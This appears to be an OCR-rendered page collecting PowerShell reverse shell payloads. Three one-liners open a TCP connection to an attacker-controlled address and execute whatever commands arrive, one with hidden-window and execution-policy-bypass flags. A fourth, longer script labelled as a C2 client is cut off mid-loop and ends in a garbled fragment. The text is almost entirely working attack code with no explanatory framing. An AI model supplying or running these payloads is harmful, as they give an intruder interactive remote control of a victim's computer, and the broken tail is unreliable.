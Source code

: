 \[1]

```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.254.1',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
$sm=(New-Object Net.Sockets.TCPClient('192.168.254.1',55555)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

\[2]

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.18',4545);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

\[3]

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.14.18",4545);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

\[4]

```powershell
do {
    # Delay before establishing network connection, and between retries
    Start-Sleep -Seconds 1

    # Connect to C2
    try{
        $TCPClient = New-Object Net.Sockets.TCPClient('127.0.0.2', 13337)
    } catch {}
} until ($TCPClient.Connected)

$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)

# Writes a string to C2
function WriteToStream ($String) {
    # Create buffer to be used for next network stream read. Size is determined by the TCP client recieve buffer (65536 by default)
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}

    # Write to C2
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}

# Initial output to C2. The function also creates the inital empty byte array buffer used below.
WriteToStream ''

# Loop that breaks if NetworkStream.Read throws an exception - will happen if connection is closed.
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
```

[Text.Encoding]: :ASCII)) .ReadToEnd() ;"